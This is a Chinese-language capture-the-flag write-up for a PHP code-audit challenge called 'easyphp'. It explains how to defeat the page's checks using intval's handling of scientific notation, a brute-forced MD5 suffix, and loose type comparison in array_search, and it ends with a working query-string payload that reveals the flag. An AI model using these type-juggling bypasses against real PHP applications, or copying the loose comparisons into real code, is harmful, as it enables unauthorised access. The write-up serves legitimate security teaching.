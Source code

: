 # 题目easyphp

[![p90MwPe.md.png](https://s1.ax1x.com/2023/05/08/p90MwPe.md.png)](https://imgse.com/i/p90MwPe)

打开网页，发现是代码审计类问题，代码如下：

```php
 <?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?> 
```

## 代码分析

1. `intval(var)`：将`var`转化为数字（如果需要转化的话），提取其整数部分为返回值；

2. `substr(str, start, length)`：提取子字符串，从`start`索引开始，长度为`length`；

3. `json_decode(json)`：将`json`编码的字符串转化为PHP值，默认转化为`object`，如果设置第二个参数为`true`则转化`array`；

4. `is_numberic(var)`：检查`var`是否为数字或者数字字符串，是返回真，否则返回假；

5. `array_search(val, array)`：在数组中寻找键值`val`，找到则返回键值为`val`的键名；

   `array_search()`采用的是`==`比较，我们可以通过设置`array`的键值为`0`或空数组（`字符串==0`|`==array()`为真）绕过检查；

## 解题过程

+ 通过分析PHP代码，我们的任务是需要构造恰当的`a,b,c`使得`$key1, $key2=1`，这样就会输出flag；

+ `a`的限制是整数部分大于6 000 000，且字符串长度小于3；

  显然这两个条件矛盾，低版本的PHP中`intval`可以解析科学计数法，我们可以采用科学计数法绕过；

+ `b`的限制是`md5`编码后的后6位等于"8b184b"；

+ `c`要求是json编码的数据，

  1. 键名为`m`的键值不能为数字，且大于2022；
  2. 键名为`n`的键值为有2个元素的数组，且它的第一个元素也是数组类型；
  3. 且它的元素中全部都是字符串`"DGGJ"`，使用`===`则要求必须类型是`string`；

  显然条件1的两个方面矛盾，利用PHP弱类型比较中“若数字与字符串比较，则会从头截取字符串，到不为数字字符的内容来与数字比较”；

  显然条件2, 3矛盾，所以我们需要绕过`array_search()`的检查；

1. 构造`a`

   ```
   a=1e9 #1e9=1 000 000 000 >> 6 000 000
   ```

2. 构造`b`

   采用脚本碰撞，找到一个符合要求的值

   ```php
   <?php
       $b = 0;
       while(1)
       {
           if('8b184b' === substr(md5($b), -6, 6))
           {
               echo $b;
               break;
           }
           $b++;
       }
   ?>
   ```

   ```
   b=53724
   ```

3. 构造`c`

   ```php
   <?php
       $c = array("m"=>2023, "n"=>array(array(), 0));
       $c = json_encode($c);
       echo $c;
   ?>
   ```

   ```
   c={"m":"2023c","n":[[],0]}
   ```

+ 综上，一个可行的payload如下：

  ```
  ?a=1e9&b=53724&c={"m":"2023c","n":[[],0]}
  ```

  [![p903ofU.md.png](https://s1.ax1x.com/2023/05/08/p903ofU.md.png)](https://imgse.com/i/p903ofU)

  成功得到flag。

